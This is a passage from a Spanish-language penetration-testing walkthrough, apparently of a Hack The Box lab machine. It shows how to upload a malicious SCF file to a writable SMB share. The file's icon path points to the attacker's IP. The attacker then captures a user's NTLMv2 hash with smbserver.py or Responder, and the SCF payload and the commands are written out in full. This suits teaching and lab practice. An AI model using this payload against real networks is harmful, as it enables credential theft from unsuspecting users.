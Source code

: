 <figure><img src="../../../../../.gitbook/assets/3385_vmware_owPn49leNJ.png" alt=""><figcaption></figcaption></figure>

Una vez montado el recurso SMB, procederemos a crear un archivo SCF malicioso que redirija las acciones realizadas sobre el recurso SMB hacia nuestro sistema. Este archivo malicioso permitirá interceptar las comunicaciones SMB y posteriormente robar los hashes NTLMv2.

```bash
[Shell]
Command=2
IconFile=\\10.10.16.5\smbFolder\test.ico
[Taskbar]
Command=ToggleDesktop
```

Una de las maneras que disponemos de realizar el ataque, es montando un servidor SMB en nuestra Kali para recibir el hash NTLMv2.

Para empezar, subiremos el archivo SCF malicioso en el recurso que podemos escribir (Users/Public) y con el servidor SMB montado, al pasar un tiempo vemos que recibimos el hash NTLMv2 del usuario "amanda".

```bash
smbserver.py smbFolder $(pwd) -smb2support

smbclient "//10.10.10.103/Department Shares/" -U 'Guest%'

cd Users/Public

put file.scf 
```

<figure><img src="../../../../../.gitbook/assets/3386_vmware_33CsiVFjsT.png" alt=""><figcaption></figcaption></figure>

Otra de las maneras de realizar el ataque sin tener el servidor SMB montado en nuestro equipo atacante, es mediante el Responder, el cual recibirá el hash NTLMv2.

```bash
responder -I tun0 -v

smbclient "//10.10.10.103/Department Shares/" -U 'Guest%'

cd Users/Public

put file.scf 
```
